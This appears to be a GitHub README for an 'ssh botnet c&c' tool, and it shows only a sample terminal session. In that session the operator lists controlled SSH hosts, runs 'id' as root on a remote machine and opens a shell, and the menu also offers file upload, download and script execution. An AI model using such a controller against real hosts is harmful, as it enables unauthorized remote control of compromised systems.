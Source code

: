 # ssh botnet c&c 
ssh botnet c&amp;c

'''shell
root@kali:~/script/ssh_botnet# ./script.py 
Loading hosts...

[0] List Hosts
[1] Active Hosts
[2] Update Hosts
[3] Run Command
[4] Open Shell
[5] File Upload
[6] File Download
[7] Script Exec
[8] Exit

C&C $> 0

ID    | Host                           | SysInfo        
------------------------------------------------------------
    0 | root@127.0.0.1:22              | Host Down
    1 | root@192.168.6.100:22          | Linux sk-srv16 3.11.0-18-generic 


[0] List Hosts
[1] Active Hosts
[2] Update Hosts
[3] Run Command
[4] Open Shell
[5] File Upload
[6] File Download
[7] Script Exec
[8] Exit

C&C $> 1

ID    | Host                           | SysInfo        
------------------------------------------------------------
    0 | root@127.0.0.1:22              | Host Down
    1 | root@192.168.6.100:22          | Linux sk-srv16 3.11.0-18-generic 



Active Hosts:
ID	Host			Status
----	---------------		---------------------
1	root@192.168.6.100:22	10:33:34 up 211 days, 21:25,  1 user,  load average: 0.00, 0.01, 0.05


[0] List Hosts
[1] Active Hosts
[2] Update Hosts
[3] Run Command
[4] Open Shell
[5] File Upload
[6] File Download
[7] Script Exec
[8] Exit

C&C $> 3

ID    | Host                           | SysInfo        
------------------------------------------------------------
    0 | root@127.0.0.1:22              | Host Down
    1 | root@192.168.6.100:22          | Linux sk-srv16 3.11.0-18-generic 


Command: id
Hosts id (0 1 2... / all) [default is all]: 1

[root@192.168.6.100:22]: id
--------------------------------------------------------------------------------
uid=0(root) gid=0(root) groups=0(root)

[0] List Hosts
[1] Active Hosts
[2] Update Hosts
[3] Run Command
[4] Open Shell
[5] File Upload
[6] File Download
[7] Script Exec
[8] Exit

C&C $> 4

ID    | Host                           | SysInfo        
------------------------------------------------------------
    0 | root@127.0.0.1:22              | Linux kali 4.0.0-kali1-amd64 
    1 | root@192.168.6.100:22          | Linux sk-srv16 3.11.0-18-generic 


Host id: 0
[root@127.0.0.1:22] Executing task 'open_shell'
Last login: Tue Jun 21 10:38:12 2016 from localhost
root@kali:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kali:~#
'''
